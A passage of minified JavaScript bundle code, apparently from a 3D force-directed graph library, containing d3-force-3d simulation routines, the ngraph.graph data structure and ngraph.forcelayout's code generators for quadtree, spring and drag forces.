e,n=0,r=t.length;n<r;++n){if((e=t[n]).index=n,null!=e.fx&&(e.x=e.fx),null!=e.fy&&(e.y=e.fy),null!=e.fz&&(e.z=e.fz),isNaN(e.x)||i>1&&isNaN(e.y)||i>2&&isNaN(e.z)){var a=10*(i>2?Math.cbrt(.5+n):i>1?Math.sqrt(.5+n):n),o=n*Ac,s=n*Cc;1===i?e.x=a:2===i?(e.x=a*Math.cos(o),e.y=a*Math.sin(o)):(e.x=a*Math.sin(o)*Math.cos(s),e.y=a*Math.cos(o),e.z=a*Math.sin(o)*Math.sin(s))}(isNaN(e.vx)||i>1&&isNaN(e.vy)||i>2&&isNaN(e.vz))&&(e.vx=0,i>1&&(e.vy=0),i>2&&(e.vz=0))}}function g(e){return e.initialize&&e.initialize(t,d,i),e}return null==t&&(t=[]),m(),n={tick:f,restart:function(){return h.restart(p),n},stop:function(){return h.stop(),n},numDimensions:function(t){return arguments.length?(i=Math.min(3,Math.max(1,Math.round(t))),c.forEach(g),n):i},nodes:function(e){return arguments.length?(t=e,m(),c.forEach(g),n):t},alpha:function(t){return arguments.length?(r=+t,n):r},alphaMin:function(t){return arguments.length?(a=+t,n):a},alphaDecay:function(t){return arguments.length?(o=+t,n):+o},alphaTarget:function(t){return arguments.length?(s=+t,n):s},velocityDecay:function(t){return arguments.length?(l=1-t,n):1-l},randomSource:function(t){return arguments.length?(d=t,c.forEach(g),n):d},force:function(t,e){return arguments.length>1?(null==e?c.delete(t):c.set(t,g(e)),n):c.get(t)},find:function(){var e,n,r,a,o,s,l=Array.prototype.slice.call(arguments),c=l.shift()||0,h=(i>1?l.shift():null)||0,u=(i>2?l.shift():null)||0,d=l.shift()||1/0,p=0,f=t.length;for(d*=d,p=0;p<f;++p)(a=(e=c-(o=t[p]).x)*e+(n=h-(o.y||0))*n+(r=u-(o.z||0))*r)<d&&(s=o,d=a);return s},on:function(t,e){return arguments.length>1?(u.on(t,e),n):u.on(t)}}}function Pc(){var t,e,n,i,r,a,o=Xl(-30),s=1,l=1/0,c=.81;function h(i){var a,o=t.length,s=(1===e?wl(t,xc):2===e?Il(t,xc,bc):3===e?Vl(t,xc,bc,Mc):null).visitAfter(d);for(r=i,a=0;a<o;++a)n=t[a],s.visit(p)}function u(){if(t){var e,n,i=t.length;for(a=new Array(i),e=0;e<i;++e)n=t[e],a[n.index]=+o(n,e,t)}}function d(t){var n,i,r,o,s,l,c=0,h=0,u=t.length;if(u){for(r=o=s=l=0;l<u;++l)(n=t[l])&&(i=Math.abs(n.value))&&(c+=n.value,h+=i,r+=i*(n.x||0),o+=i*(n.y||0),s+=i*(n.z||0));c*=Math.sqrt(4/u),t.x=r/h,e>1&&(t.y=o/h),e>2&&(t.z=s/h)}else{(n=t).x=n.data.x,e>1&&(n.y=n.data.y),e>2&&(n.z=n.data.z);do{c+=a[n.data.index]}while(n=n.next)}t.value=c}function p(t,o,h,u,d){if(!t.value)return!0;var p=[h,u,d][e-1],f=t.x-n.x,m=e>1?t.y-n.y:0,g=e>2?t.z-n.z:0,_=p-o,v=f*f+m*m+g*g;if(_*_/c<v)return v<l&&(0===f&&(v+=(f=ql(i))*f),e>1&&0===m&&(v+=(m=ql(i))*m),e>2&&0===g&&(v+=(g=ql(i))*g),v<s&&(v=Math.sqrt(s*v)),n.vx+=f*t.value*r/v,e>1&&(n.vy+=m*t.value*r/v),e>2&&(n.vz+=g*t.value*r/v)),!0;if(!(t.length||v>=l)){(t.data!==n||t.next)&&(0===f&&(v+=(f=ql(i))*f),e>1&&0===m&&(v+=(m=ql(i))*m),e>2&&0===g&&(v+=(g=ql(i))*g),v<s&&(v=Math.sqrt(s*v)));do{t.data!==n&&(_=a[t.data.index]*r/v,n.vx+=f*_,e>1&&(n.vy+=m*_),e>2&&(n.vz+=g*_))}while(t=t.next)}}return h.initialize=function(n,...r){t=n,i=r.find((t=>"function"==typeof t))||Math.random,e=r.find((t=>[1,2,3].includes(t)))||2,u()},h.strength=function(t){return arguments.length?(o="function"==typeof t?t:Xl(+t),u(),h):o},h.distanceMin=function(t){return arguments.length?(s=t*t,h):Math.sqrt(s)},h.distanceMax=function(t){return arguments.length?(l=t*t,h):Math.sqrt(l)},h.theta=function(t){return arguments.length?(c=t*t,h):Math.sqrt(c)},h}function Lc(t){return t&&t.__esModule&&Object.prototype.hasOwnProperty.call(t,"default")?t.default:t}function Dc(){if(Ec)return Sc;return Ec=1,Sc=function(t){!function(t){if(!t)throw new Error("Eventify cannot use falsy object as events subject");for(var e=["on","fire","off"],n=0;n<e.length;++n)if(t.hasOwnProperty(e[n]))throw new Error("Subject cannot be eventified, since it already has property '"+e[n]+"'")}(t);var e=function(t){var e=Object.create(null);return{on:function(n,i,r){if("function"!=typeof i)throw new Error("callback is expected to be a function");var a=e[n];return a||(a=e[n]=[]),a.push({callback:i,ctx:r}),t},off:function(n,i){if(void 0===n)return e=Object.create(null),t;if(e[n])if("function"!=typeof i)delete e[n];else for(var r=e[n],a=0;a<r.length;++a)r[a].callback===i&&r.splice(a,1);return t},fire:function(n){var i,r=e[n];if(!r)return t;arguments.length>1&&(i=Array.prototype.splice.call(arguments,1));for(var a=0;a<r.length;++a){var o=r[a];o.callback.apply(o.ctx,i)}return t}}}(t);return t.on=e.on,t.off=e.off,t.fire=e.fire,t},Sc}var Ic,Oc,Uc,Nc,Fc,kc=function(){if(Tc)return wc;Tc=1,wc=function(a){"uniqueLinkId"in(a=a||{})&&(console.warn("ngraph.graph: Starting from version 0.14 `uniqueLinkId` is deprecated.\nUse `multigraph` option instead\n","\n","Note: there is also change in default behavior: From now on each graph\nis considered to be not a multigraph by default (each edge is unique)."),a.multigraph=a.uniqueLinkId);void 0===a.multigraph&&(a.multigraph=!1);if("function"!=typeof Map)throw new Error("ngraph.graph requires `Map` to be defined. Please polyfill it before using ngraph");var o=new Map,s=new Map,l={},c=0,h=a.multigraph?function(t,e,n){var a=r(t,e),o=l.hasOwnProperty(a);if(o||w(t,e)){o||(l[a]=0);var s="@"+ ++l[a];a=r(t+s,e+s)}return new i(t,e,n,a)}:function(t,e,n){var a=r(t,e),o=s.get(a);if(o)return o.data=n,o;return new i(t,e,n,a)},u=[],d=T,p=T,f=T,m=T,g={version:20,addNode:y,addLink:function(t,e,i){f();var r=x(t)||y(t),a=x(e)||y(e),o=h(t,e,i),l=s.has(o.id);s.set(o.id,o),n(r,o),t!==e&&n(a,o);return d(o,l?"update":"add"),m(),o},removeLink:function(t,e){void 0!==e&&(t=w(t,e));return E(t)},removeNode:b,getNode:x,getNodeCount:M,getLinkCount:S,getEdgeCount:S,getLinksCount:S,getNodesCount:M,getLinks:function(t){var e=x(t);return e?e.links:null},forEachNode:R,forEachLinkedNode:function(t,e,n){var i=x(t);if(i&&i.links&&"function"==typeof e)return n?function(t,e,n){var i=t.values(),r=i.next();for(;!r.done;){var a=r.value;if(a.fromId===e&&n(o.get(a.toId),a))return!0;r=i.next()}}(i.links,t,e):function(t,e,n){var i=t.values(),r=i.next();for(;!r.done;){var a=r.value,s=a.fromId===e?a.toId:a.fromId;if(n(o.get(s),a))return!0;r=i.next()}}(i.links,t,e)},forEachLink:function(t){if("function"==typeof t)for(var e=s.values(),n=e.next();!n.done;){if(t(n.value))return!0;n=e.next()}},beginUpdate:f,endUpdate:m,clear:function(){f(),R((function(t){b(t.id)})),m()},hasLink:w,hasNode:x,getLink:w};return t(g),function(){var t=g.on;function e(){return g.beginUpdate=f=A,g.endUpdate=m=C,d=_,p=v,g.on=t,t.apply(g,arguments)}g.on=e}(),g;function _(t,e){u.push({link:t,changeType:e})}function v(t,e){u.push({node:t,changeType:e})}function y(t,n){if(void 0===t)throw new Error("Invalid node identifier");f();var i=x(t);return i?(i.data=n,p(i,"update")):(i=new e(t,n),p(i,"add")),o.set(t,i),m(),i}function x(t){return o.get(t)}function b(t){var e=x(t);if(!e)return!1;f();var n=e.links;return n&&(n.forEach(E),e.links=null),o.delete(t),p(e,"remove"),m(),!0}function M(){return o.size}function S(){return s.size}function E(t){if(!t)return!1;if(!s.get(t.id))return!1;f(),s.delete(t.id);var e=x(t.fromId),n=x(t.toId);return e&&e.links.delete(t),n&&n.links.delete(t),d(t,"remove"),m(),!0}function w(t,e){if(void 0!==t&&void 0!==e)return s.get(r(t,e))}function T(){}function A(){c+=1}function C(){0===(c-=1)&&u.length>0&&(g.fire("changed",u),u.length=0)}function R(t){if("function"!=typeof t)throw new Error("Function is expected to iterate over graph nodes. You passed "+t);for(var e=o.values(),n=e.next();!n.done;){if(t(n.value))return!0;n=e.next()}}};var t=Dc();function e(t,e){this.id=t,this.links=null,this.data=e}function n(t,e){t.links?t.links.add(e):t.links=new Set([e])}function i(t,e,n,i){this.fromId=t,this.toId=e,this.data=n,this.id=i}function r(t,e){return t.toString()+"👉 "+e.toString()}return wc}(),zc=Lc(kc),Bc={exports:{}},Hc={exports:{}};function Vc(){return Oc||(Oc=1,Ic=function(t){return 0===t?"x":1===t?"y":2===t?"z":"c"+(t+1)}),Ic}function Gc(){if(Nc)return Uc;Nc=1;const t=Vc();return Uc=function(e){return function(n,i){let r=i&&i.indent||0,a=i&&void 0!==i.join?i.join:"\n",o=Array(r+1).join(" "),s=[];for(let i=0;i<e;++i){let e=t(i),r=0===i?"":o;s.push(r+n.replace(/{var}/g,e))}return s.join(a)}}}var jc,Wc={exports:{}};var Xc,qc={exports:{}};var Yc,Kc={exports:{}};var Zc,$c={exports:{}};var Jc,Qc,th,eh,nh,ih={exports:{}};var rh,ah,oh,sh,lh={exports:{}};function ch(){if(oh)return ah;oh=1,ah=function(l){var c=th?Qc:(th=1,Qc=function(t,e,n,i){this.from=t,this.to=e,this.length=n,this.coefficient=i}),h=(nh||(nh=1,eh=function t(e,n){var i;if(e||(e={}),n)for(i in n)if(n.hasOwnProperty(i)){var r=e.hasOwnProperty(i),a=typeof n[i];r&&typeof e[i]===a?"object"===a&&(e[i]=t(e[i],n[i])):e[i]=n[i]}return e}),eh),u=Dc();if(l){if(void 0!==l.springCoeff)throw new Error("springCoeff was renamed to springCoefficient");if(void 0!==l.dragCoeff)throw new Error("dragCoeff was renamed to dragCoefficient")}l=h(l,{springLength:10,springCoefficient:.8,gravity:-12,theta:.8,dragCoefficient:.9,timeStep:.5,adaptiveTimeStepWeight:0,dimensions:2,debug:!1});var d=o[l.dimensions];if(!d){var p=l.dimensions;d={Body:t(p,l.debug),createQuadTree:e(p),createBounds:n(p),createDragForce:i(p),createSpringForce:r(p),integrate:a(p)},o[p]=d}var f=d.Body,m=d.createQuadTree,g=d.createBounds,_=d.createDragForce,v=d.createSpringForce,y=d.integrate,x=function(){if(rh)return lh.exports;function t(t){return new e("number"==typeof t?t:+new Date)}function e(t){this.seed=t}function n(t){return Math.sqrt(2*Math.PI/t)*Math.pow(1/Math.E*(t+1/(12*t-1/(10*t))),t)}function i(){var t=this.seed;return t=4294967295&(3042594569^(t=4251993797+(t=4294967295&(3550635116+(t=374761393+(t=4294967295&(3345072700^(t=t+2127912214+(t<<12)&4294967295)^t>>>19))+(t<<5)&4294967295)^t<<9))+(t<<3)&4294967295)^t>>>16),this.seed=t,(268435455&t)/268435456}return rh=1,lh.exports=t,lh.exports.random=t,lh.exports.randomIterator=function(e,n){var i=n||t();if("function"!=typeof i.next)throw new Error("customRandom does not match expected API: next() function is missing");return{forEach:function(t){var n,r,a;for(n=e.length-1;n>0;--n)r=i.next(n+1),a=e[r],e[r]=e[n],e[n]=a,t(a);e.length&&t(e[0])},shuffle:function(){var t,n,r;for(t=e.length-1;t>0;--t)n=i.next(t+1),r=e[n],e[n]=e[t],e[t]=r;return e}}},e.prototype.next=function(t){return Math.floor(this.nextDouble()*t)},e.prototype.nextDouble=i,e.prototype.uniform=i,e.prototype.gaussian=function(){var t,e,n;do{t=(e=2*this.nextDouble()-1)*e+(n=2*this.nextDouble()-1)*n}while(t>=1||0===t);return e*Math.sqrt(-2*Math.log(t)/t)},e.prototype.levy=function(){var t=1.5,e=Math.pow(n(2.5)*Math.sin(Math.PI*t/2)/(n(1.25)*t*Math.pow(2,.25)),1/t);return this.gaussian()*e/Math.pow(Math.abs(this.gaussian()),1/t)},lh.exports}().random(42),b=[],M=[],S=m(l,x),E=g(b,l,x),w=v(l,x),T=_(l),A=[],C=new Map,R=0;D("nbody",(function(){if(0===b.length)return;S.insertBodies(b);var t=b.length;for(;t--;){var e=b[t];e.isPinned||(e.reset(),S.updateBodyForce(e),T.update(e))}})),D("spring",(function(){var t=M.length;for(;t--;)w.update(M[t])}));var P={bodies:b,quadTree:S,springs:M,settings:l,addForce:D,removeForce:function(t){var e=A.indexOf(C.get(t));if(e<0)return;A.splice(e,1),C.delete(t)},getForces:function(){return C},step:function(){for(var t=0;t<A.length;++t)A[t](R);var e=y(b,l.timeStep,l.adaptiveTimeStepWeight);return R+=1,e},addBody:function(t){if(!t)throw new Error("Body is required");return b.push(t),t},addBodyAt:function(t){if(!t)throw new Error("Body position is required");var e=(t=>new f(t))(t);return b.push(e),e},removeBody:function(t){if(t){var e=b.indexOf(t);if(!(e<0))return b.splice(e,1),0===b.length&&E.reset(),!0}},addSpring:function(t,e,n,i){if(!t||!e)throw new Error("Cannot add null spring to force simulator");"number"!=typeof n&&(n=-1);var r=new c(t,e,n,i>=0?i:-1);return M.push(r),r},getTotalMovement:function(){return 0},removeSpring:function(t){if(t){var e=M.indexOf(t);return e>-1?(M.splice(e,1),!0):void 0}},getBestNewBodyPosition:function(t){return E.getBestNewPosition(t)},getBBox:L,getBoundingBox:L,invalidateBBox:function(){console.warn("invalidateBBox() is deprecated, bounds always recomputed on `getBBox()` call")},gravity:function(t){return void 0!==t?(l.gravity=t,S.options({gravity:t}),this):l.gravity},theta:function(t){return void 0!==t?(l.theta=t,S.options({theta:t}),this):l.theta},random:x};return function(t,e){for(var n in t)s(t,e,n)}(l,P),u(P),P;function L(){return E.update(),E.box}function D(t,e){if(C.has(t))throw new Error("Force "+t+" is already added");C.set(t,e),A.push(e)}};var t=function(){if(Fc)return Hc.exports;Fc=1;const t=Gc();function e(t,e){return`\n${i(t,e)}\n${n(t)}\nreturn {Body: Body, Vector: Vector};\n`}function n(e){let n=t(e),i=n("{var}",{join:", "});return`\nfunction Body(${i}) {\n  this.isPinned = false;\n  this.pos = new Vector(${i});\n  this.force = new Vector();\n  this.velocity = new Vector();\n  this.mass = 1;\n\n  this.springCount = 0;\n  this.springLength = 0;\n}\n\nBody.prototype.reset = function() {\n  this.force.reset();\n  this.springCount = 0;\n  this.springLength = 0;\n}\n\nBody.prototype.setPosition = function (${i}) {\n  ${n("this.pos.{var} = {var} || 0;",{indent:2})}\n};`}function i(e,n){let i=t(e),r="";return n&&(r=`${i("\n\t   var v{var};\n\tObject.defineProperty(this, '{var}', {\n\t  set: function(v) { \n\t    if (!Number.isFinite(v)) throw new Error('Cannot set non-numbers to {var}');\n\t    v{var} = v; \n\t  },\n\t  get: function() { return v{var}; }\n\t});")}`),`function Vector(${i("{var}",{join:", "})}) {\n  ${r}\n    if (typeof arguments[0] === 'object') {\n      // could be another vector\n      let v = arguments[0];\n      ${i('if (!Number.isFinite(v.{var})) throw new Error("Expected value is not a finite number at Vector constructor ({var})");',{indent:4})}\n      ${i("this.{var} = v.{var};",{indent:4})}\n    } else {\n      ${i('this.{var} = typeof {var} === "number" ? {var} : 0;',{indent:4})}\n    }\n  }\n  \n  Vector.prototype.reset = function () {\n    ${i("this.{var} = ",{join:""})}0;\n  };`}return Hc.exports=function(t,n){let i=e(t,n),{Body:r}=new Function(i)();return r},Hc.exports.generateCreateBodyFunctionBody=e,Hc.exports.getVectorCode=i,Hc.exports.getBodyCode=n,Hc.exports}(),e=function(){if(jc)return Wc.exports;jc=1;const t=Gc(),e=Vc();function n(n){let l=t(n),c=Math.pow(2,n);return`\n${s()}\n${o(n)}\n${i(n)}\n${a(n)}\n${r(n)}\n\nfunction createQuadTree(options, random) {\n  options = options || {};\n  options.gravity = typeof options.gravity === 'number' ? options.gravity : -1;\n  options.theta = typeof options.theta === 'number' ? options.theta : 0.8;\n\n  var gravity = options.gravity;\n  var updateQueue = [];\n  var insertStack = new InsertStack();\n  var theta = options.theta;\n\n  var nodesCache = [];\n  var currentInCache = 0;\n  var root = newNode();\n\n  return {\n    insertBodies: insertBodies,\n\n    /**\n     * Gets root node if it is present\n     */\n    getRoot: function() {\n      return root;\n    },\n\n    updateBodyForce: update,\n\n    options: function(newOptions) {\n      if (newOptions) {\n        if (typeof newOptions.gravity === 'number') {\n          gravity = newOptions.gravity;\n        }\n        if (typeof newOptions.theta === 'number') {\n          theta = newOptions.theta;\n        }\n\n        return this;\n      }\n\n      return {\n        gravity: gravity,\n        theta: theta\n      };\n    }\n  };\n\n  function newNode() {\n    // To avoid pressure on GC we reuse nodes.\n    var node = nodesCache[currentInCache];\n    if (node) {\n${function(t){let e=[];for(let n=0;n<c;++n)e.push(`${t}quad${n} = null;`);return e.join("\n")}("      node.")}\n      node.body = null;\n      node.mass = ${l("node.mass_{var} = ",{join:""})}0;\n      ${l("node.min_{var} = node.max_{var} = ",{join:""})}0;\n    } else {\n      node = new QuadNode();\n      nodesCache[currentInCache] = node;\n    }\n\n    ++currentInCache;\n    return node;\n  }\n\n  function update(sourceBody) {\n    var queue = updateQueue;\n    var v;\n    ${l("var d{var};",{indent:4})}\n    var r; \n    ${l("var f{var} = 0;",{indent:4})}\n    var queueLength = 1;\n    var shiftIdx = 0;\n    var pushIdx = 1;\n\n    queue[0] = root;\n\n    while (queueLength) {\n      var node = queue[shiftIdx];\n      var body = node.body;\n\n      queueLength -= 1;\n      shiftIdx += 1;\n      var differentBody = (body !== sourceBody);\n      if (body && differentBody) {\n        // If the current node is a leaf node (and it is not source body),\n        // calculate the force exerted by the current node on body, and add this\n        // amount to body's net force.\n        ${l("d{var} = body.pos.{var} - sourceBody.pos.{var};",{indent:8})}\n        r = Math.sqrt(${l("d{var} * d{var}",{join:" + "})});\n\n        if (r === 0) {\n          // Poor man's protection against zero distance.\n          ${l("d{var} = (random.nextDouble() - 0.5) / 50;",{indent:10})}\n          r = Math.sqrt(${l("d{var} * d{var}",{join:" + "})});\n        }\n\n        // This is standard gravitation force calculation but we divide\n        // by r^3 to save two operations when normalizing force vector.\n        v = gravity * body.mass * sourceBody.mass / (r * r * r);\n        ${l("f{var} += v * d{var};",{indent:8})}\n      } else if (differentBody) {\n        // Otherwise, calculate the ratio s / r,  where s is the width of the region\n        // represented by the internal node, and r is the distance between the body\n        // and the node's center-of-mass\n        ${l("d{var} = node.mass_{var} / node.mass - sourceBody.pos.{var};",{indent:8})}\n        r = Math.sqrt(${l("d{var} * d{var}",{join:" + "})});\n\n        if (r === 0) {\n          // Sorry about code duplication. I don't want to create many functions\n          // right away. Just want to see performance first.\n          ${l("d{var} = (random.nextDouble() - 0.5) / 50;",{indent:10})}\n          r = Math.sqrt(${l("d{var} * d{var}",{join:" + "})});\n        }\n        // If s / r < θ, treat this internal node as a single body, and calculate the\n        // force it exerts on sourceBody, and add this amount to sourceBody's net force.\n        if ((node.max_${e(0)} - node.min_${e(0)}) / r < theta) {\n          // in the if statement above we consider node's width only\n          // because the region was made into square during tree creation.\n          // Thus there is no difference between using width or height.\n          v = gravity * node.mass * sourceBody.mass / (r * r * r);\n          ${l("f{var} += v * d{var};",{indent:10})}\n        } else {\n          // Otherwise, run the procedure recursively on each of the current node's children.\n\n          // I intentionally unfolded this loop, to save several CPU cycles.\n${function(){let t=Array(11).join(" "),e=[];for(let n=0;n<c;++n)e.push(t+`if (node.quad${n}) {`),e.push(t+`  queue[pushIdx] = node.quad${n};`),e.push(t+"  queueLength += 1;"),e.push(t+"  pushIdx += 1;"),e.push(t+"}");return e.join("\n")}()}\n        }\n      }\n    }\n\n    ${l("sourceBody.force.{var} += f{var};",{indent:4})}\n  }\n\n  function insertBodies(bodies) {\n    ${l("var {var}min = Number.MAX_VALUE;",{indent:4})}\n    ${l("var {var}max = Number.MIN_VALUE;",{indent:4})}\n    var i = bodies.length;\n\n    // To reduce quad tree depth we are looking for exact bounding box of all particles.\n    while (i--) {\n      var pos = bodies[i].pos;\n      ${l("if (pos.{var} < {var}min) {var}min = pos.{var};",{indent:6})}\n      ${l("if (pos.{var} > {var}max) {var}max = pos.{var};",{indent:6})}\n    }\n\n    // Makes the bounds square.\n    var maxSideLength = -Infinity;\n    ${l("if ({var}max - {var}min > maxSideLength) maxSideLength = {var}max - {var}min ;",{indent:4})}\n\n    currentInCache = 0;\n    root = newNode();\n    ${l("root.min_{var} = {var}min;",{indent:4})}\n    ${l("root.max_{var} = {var}min + maxSideLength;",{indent:4})}\n\n    i = bodies.length - 1;\n    if (i >= 0) {\n      root.body = bodies[i];\n    }\n    while (i--) {\n      insert(bodies[i], root);\n    }\n  }\n\n  function insert(newBody) {\n    insertStack.reset();\n    insertStack.push(root, newBody);\n\n    while (!insertStack.isEmpty()) {\n      var stackItem = insertStack.pop();\n      var node = stackItem.node;\n      var body = stackItem.body;\n\n      if (!node.body) {\n        // This is internal node. Update the total mass of the node and center-of-mass.\n        ${l("var {var} = body.pos.{var};",{indent:8})}\n        node.mass += body.mass;\n        ${l("node.mass_{var} += body.mass * {var};",{indent:8})}\n\n        // Recursively insert the body in the appropriate quadrant.\n        // But first find the appropriate quadrant.\n        var quadIdx = 0; // Assume we are in the 0's quad.\n        ${l("var min_{var} = node.min_{var};",{indent:8})}\n        ${l("var max_{var} = (min_{var} + node.max_{var}) / 2;",{indent:8})}\n\n${function(){let t=[],i=Array(8+1).join(" ");for(let r=0;r<n;++r)t.push(i+`if (${e(r)} > max_${e(r)}) {`),t.push(i+`  quadIdx = quadIdx + ${Math.pow(2,r)};`),t.push(i+`  min_${e(r)} = max_${e(r)};`),t.push(i+`  max_${e(r)} = node.max_${e(r)};`),t.push(i+"}");return t.join("\n")}()}\n\n        var child = getChild(node, quadIdx);\n\n        if (!child) {\n          // The node is internal but this quadrant is not taken. Add\n          // subnode to it.\n          child = newNode();\n          ${l("child.min_{var} = min_{var};",{indent:10})}\n          ${l("child.max_{var} = max_{var};",{indent:10})}\n          child.body = body;\n\n          setChild(node, quadIdx, child);\n        } else {\n          // continue searching in this quadrant.\n          insertStack.push(child, body);\n        }\n      } else {\n        // We are trying to add to the leaf node.\n        // We have to convert current leaf into internal node\n        // and continue adding two nodes.\n        var oldBody = node.body;\n        node.body = null; // internal nodes do not cary bodies\n\n        if (isSamePosition(oldBody.pos, body.pos)) {\n          // Prevent infinite subdivision by bumping one node\n          // anywhere in this quadrant\n          var retriesCount = 3;\n          do {\n            var offset = random.nextDouble();\n            ${l("var d{var} = (node.max_{var} - node.min_{var}) * offset;",{indent:12})}\n\n            ${l("oldBody.pos.{var} = node.min_{var} + d{var};",{indent:12})}\n            retriesCount -= 1;\n            // Make sure we don't bump it out of the box. If we do, next iteration should fix it\n          } while (retriesCount > 0 && isSamePosition(oldBody.pos, body.pos));\n\n          if (retriesCount === 0 && isSamePosition(oldBody.pos, body.pos)) {\n            // This is very bad, we ran out of precision.\n            // if we do not return from the method we'll get into\n            // infinite loop here. So we sacrifice correctness of layout, and keep the app running\n            // Next layout iteration should get larger bounding box in the first step and fix this\n            return;\n          }\n        }\n        // Next iteration should subdivide node further.\n        insertStack.push(node, oldBody);\n        insertStack.push(node, body);\n      }\n    }\n  }\n}\nreturn createQuadTree;\n\n`}function i(e){let n=t(e);return`\n  function isSamePosition(point1, point2) {\n    ${n("var d{var} = Math.abs(point1.{var} - point2.{var});",{indent:2})}\n  \n    return ${n("d{var} < 1e-8",{join:" && "})};\n  }  \n`}function r(t){var e=Math.pow(2,t);return`\nfunction setChild(node, idx, child) {\n  ${function(){let t=[];for(let n=0;n<e;++n){let e=0===n?"  ":"  else ";t.push(`${e}if (idx === ${n}) node.quad${n} = child;`)}return t.join("\n")}()}\n}`}function a(t){return`function getChild(node, idx) {\n${function(){let e=[],n=Math.pow(2,t);for(let t=0;t<n;++t)e.push(`  if (idx === ${t}) return node.quad${t};`);return e.join("\n")}()}\n  return null;\n}`}function o(e){let n=t(e),i=Math.pow(2,e);return`\nfunction QuadNode() {\n  // body stored inside this node. In quad tree only leaf nodes (by construction)\n  // contain bodies:\n  this.body = null;\n\n  // Child nodes are stored in quads. Each quad is presented by number:\n  // 0 | 1\n  // -----\n  // 2 | 3\n${function(t){let e=[];for(let n=0;n<i;++n)e.push(`${t}quad${n} = null;`);return e.join("\n")}("  this.")}\n\n  // Total mass of current node\n  this.mass = 0;\n\n  // Center of mass coordinates\n  ${n("this.mass_{var} = 0;",{indent:2})}\n\n  // bounding box coordinates\n  ${n("this.min_{var} = 0;",{indent:2})}\n  ${n("this.max_{var} = 0;",{indent:2})}\n}\n`}function s(){return"\n/**\n * Our implementation of QuadTree is non-recursive to avoid GC hit\n * This data structure represent stack of elements\n * which we are trying to insert into quad tree.\n */\nfunction InsertStack () {\n    this.stack = [];\n    this.popIdx = 0;\n}\n\nInsertStack.prototype = {\n    isEmpty: function() {\n        return this.popIdx === 0;\n    },\n    push: function (node, body) {\n        var item = this.stack[this.popIdx];\n        if (!item) {\n            // we are trying to avoid memory pressure: create new element\n            // only when absolutely necessary\n            this.stack[this.popIdx] = new InsertStackElement(node, body);\n        } else {\n            item.node = node;\n            item.body = body;\n        }\n        ++this.popIdx;\n    },\n    pop: function () {\n        if (this.popIdx > 0) {\n            return this.stack[--this.popIdx];\n        }\n    },\n    reset: function () {\n        this.popIdx = 0;\n    }\n};\n\nfunction InsertStackElement(node, body) {\n    this.node = node; // QuadTree node\n    this.body = body; // physical body which needs to be inserted to node\n}\n"}return Wc.exports=function(t){let e=n(t);return new Function(e)()},Wc.exports.generateQuadTreeFunctionBody=n,Wc.exports.getInsertStackCode=s,Wc.exports.getQuadNodeCode=o,Wc.exports.isSamePosition=i,Wc.exports.getChildBodyCode=a,Wc.exports.setChildBodyCode=r,Wc.exports}(),n=function(){if(Xc)return qc.exports;Xc=1,qc.exports=function(t){let n=e(t);return new Function("bodies","settings","random",n)},qc.exports.generateFunctionBody=e;const t=Gc();function e(e){let n=t(e);return`\n  var boundingBox = {\n    ${n("min_{var}: 0, max_{var}: 0,",{indent:4})}\n  };\n\n  return {\n    box: boundingBox,\n\n    update: updateBoundingBox,\n\n    reset: resetBoundingBox,\n\n    getBestNewPosition: function (neighbors) {\n      var ${n("base_{var} = 0",{join:", "})};\n\n      if (neighbors.length) {\n        for (var i = 0; i < neighbors.length; ++i) {\n          let neighborPos = neighbors[i].pos;\n          ${n("base_{var} += neighborPos.{var};",{indent:10})}\n        }\n\n        ${n("base_{var} /= neighbors.length;",{indent:8})}\n      } else {\n        ${n("base_{var} = (boundingBox.min_{var} + boundingBox.max_{var}) / 2;",{indent:8})}\n      }\n\n      var springLength = settings.springLength;\n      return {\n        ${n("{var}: base_{var} + (random.nextDouble() - 0.5) * springLength,",{indent:8})}\n      };\n    }\n  };\n\n  function updateBoundingBox() {\n    var i = bodies.length;\n    if (i === 0) return; // No bodies - no borders.\n\n    ${n("var max_{var} = -Infinity;",{indent:4})}\n    ${n("var min_{var} = Infinity;",{indent:4})}\n\n    while(i--) {\n      // this is O(n), it could be done faster with quadtree, if we check the root node bounds\n      var bodyPos = bodies[i].pos;\n      ${n("if (bodyPos.{var} < min_{var}) min_{var} = bodyPos.{var};",{indent:6})}\n      ${n("if (bodyPos.{var} > max_{var}) max_{var} = bodyPos.{var};",{indent:6})}\n    }\n\n    ${n("boundingBox.min_{var} = min_{var};",{indent:4})}\n    ${n("boundingBox.max_{var} = max_{var};",{indent:4})}\n  }\n\n  function resetBoundingBox() {\n    ${n("boundingBox.min_{var} = boundingBox.max_{var} = 0;",{indent:4})}\n  }\n`}return qc.exports}(),i=function(){if(Yc)return Kc.exports;Yc=1;const t=Gc();function e(e){return`\n  if (!Number.isFinite(options.dragCoefficient)) throw new Error('dragCoefficient is not a finite number');\n\n  return {\n    update: function(body) {\n      ${t(e)("body.force.{var} -= options.dragCoefficient * body.velocity.{var};",{indent:6})}\n    }\n  };\n`}return Kc.exports=function(t){let n=e(t);return new Function("options",n)},Kc.exports.generateCreateDragForceFunctionBody=e,Kc.exports}(),r=function(){if(Zc)return $c.exports;Zc=1;const t=Gc();function e(e){let n=t(e);return`\n  if (!Number.isFinite(options.springCoefficient)) throw new Error('Spring coefficient is not a number');\n  if (!Number.isFinite(options.springLength)) throw new Error('Spring length is not a number');\n\n  return {\n    /**\n     * Updates forces acting on a spring\n     */\n    update: function (spring) {\n      var body1 = spring.from;\n      var body2 = spring.to;\n      var length = spring.length < 0 ? options.springLength : spring.length;\n      ${n("var d{var} = body2.pos.{var} - body1.pos.{var};",{indent:6})}\n      var r = Math.sqrt(${n("d{var} * d{var}",{join:" + "})});\n\n      if (r === 0) {\n        ${n("d{var} = (random.nextDouble() - 0.5) / 50;",{indent:8})}\n        r = Math.sqrt(${n("d{var} * d{var}",{join:" + "})});\n      }\n\n      var d = r - length;\n      var coefficient = ((spring.coefficient > 0) ? spring.coefficient : options.springCoefficient) * d / r;\n\n      ${n("body1.force.{var} += coefficient * d{var}",{indent:6})};\n      body1.springCount += 1;\n      body1.springLength += r;\n\n      ${n("body2.force.{var} -= coefficient * d{var}",{indent:6})};\n      body2.springCount += 1;\n      body2.springLength += r;\n    }\n  };\n`}return $c.exports=function(t){let n=e(t);return new Function("options","random",n)},$c.exports.generateCreateSpringForceFunctionBody=e,$c.exports}(),a=function(){if(Jc)return ih.exports;Jc=1;const t=Gc();function e(e){let n=t(e);return`\n  var length = bodies.length;\n  if (length === 0) return 0;\n\n  ${n("var d{var} = 0, t{var} = 0;",{indent:2})}\n\n  for (var i = 0; i < length; ++i) {\n    var body = bodies[i];\n    if (body.isPinned) 